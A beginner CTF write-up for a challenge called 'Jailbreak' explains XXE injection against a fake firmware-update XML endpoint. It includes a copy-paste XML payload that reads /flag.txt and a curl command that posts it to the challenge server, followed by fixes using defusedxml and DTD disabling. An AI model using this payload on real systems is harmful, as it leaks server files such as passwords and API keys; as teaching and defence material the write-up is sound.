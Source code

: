 # Jailbreak — Super Beginner-Friendly Writeup

**Challenge name:** Jailbreak
**Points:** 900

---

## 🧠 What this challenge is about

You are given a fake “firmware update” service that reads XML files. The goal is to find a way to make it **leak the contents of a secret file** called `/flag.txt` on the server.

You can do this using an XML trick called **XXE (XML External Entity)**.

---

## 🧩 What’s happening (in very simple terms)

XML lets you define *entities* — placeholders that can stand for text or files.
If a server is not careful, an attacker can say:

> “Hey XML parser, please read this file and put it right here.”

That’s what we do in this challenge.

We’ll define an entity that points to the flag file: `file:///flag.txt`.
Then we’ll insert that entity in the XML, and when the server reads the XML, it will replace it with the flag.

---

## 📘 Quick explanation of terms

| Term        | What it means                                                                    |
| ----------- | -------------------------------------------------------------------------------- |
| **XML**     | A structured way to send data, like HTML but for data.                           |
| **DOCTYPE** | A section at the top of XML that defines custom shortcuts (entities).            |
| **ENTITY**  | A shortcut that can hold text or a file’s contents.                              |
| **XXE**     | When a hacker uses an ENTITY to make the server read files or data it shouldn’t. |

---

## 🪄 Step-by-step guide

1. The server has an endpoint `/api/update` that accepts XML input.
2. We send XML that defines an ENTITY named `xxe`, which points to `/flag.txt`.
3. We use `&xxe;` inside the XML. The `&xxe;` part gets replaced with whatever is inside `/flag.txt`.
4. The server then returns the parsed XML — including the flag!

---

## 🧾 The XML payload (copy this)

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>1.33.7&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Update test</Description>
  </Firmware>
</FirmwareUpdateConfig>
```

### 💡 How it works

* The line `<!ENTITY xxe SYSTEM "file:///flag.txt">` tells the parser: “The entity `xxe` means the contents of `/flag.txt`.”
* The part `&xxe;` means “insert that entity here.”
* So the parser will replace `&xxe;` with whatever is in `/flag.txt`.

Example:

```xml
<Version>1.33.7FLAG{super_secret_flag}</Version>
```

---

## 💻 Example using `curl`

Open your Terminal (on Mac/Linux) or PowerShell (on Windows) and paste this command:

```bash
curl -s -X POST 'http://94.237.57.211:57541/api/update' \
  -H 'Content-Type: application/xml' \
  --data-binary $'<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>\n<FirmwareUpdateConfig>\n  <Firmware>\n    <Version>1.33.7&xxe;</Version>\n  </Firmware>\n</FirmwareUpdateConfig>'
```

After pressing **Enter**, look at the output.
If it worked, you’ll see something like this:

```
<Response>
  <Version>1.33.7FLAG{this_is_the_flag}</Version>
</Response>
```

🎉 The flag is `FLAG{this_is_the_flag}`!

---

## 👀 What you should see

Look for a string that looks like `FLAG{something}`.
That’s your flag. Copy it and submit it on the CTF site.

If you don’t see anything, make sure:

* You sent to the **right IP and port**.
* You used **Content-Type: application/xml**.
* You copied the payload exactly.

---

## ⚠️ Why this works (and why it’s dangerous)

* The server’s XML parser is **too trusting**.
* It allows `DOCTYPE` and `ENTITY` processing.
* So you can make it read files on the server (like `/flag.txt`).

In the real world, this could leak passwords, config files, or API keys.

---

## 🔧 How to fix this (for developers)

**Don’t let XML parsers read external entities!**

Examples:

**Python (safe parsing)**

```python
from defusedxml.ElementTree import fromstring
xml_data = fromstring(xml_input)  # safe parser, blocks XXE
```

**Java (disable DTD)**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Or use **JSON** instead of XML when possible.

---

## 🪶 Quick recap

✅ XML parser reads files if misconfigured
✅ `<!ENTITY xxe SYSTEM "file:///flag.txt">` defines a file reference
✅ `&xxe;` inserts the file contents into XML
✅ Server returns that → you get the flag

---

## 🚫 Legal note

This technique is for **educational and CTF use only**.
Never test real websites or systems without permission.

---

## ✨ Summary for beginners

| Step | What you do                    | Why it matters                      |
| ---- | ------------------------------ | ----------------------------------- |
| 1    | Create XML payload with ENTITY | Tells XML parser to read a file     |
| 2    | Send to `/api/update` endpoint | The server parses it                |
| 3    | Parser replaces `&xxe;`        | You get the contents of `/flag.txt` |
| 4    | Look for `FLAG{                |                                     |
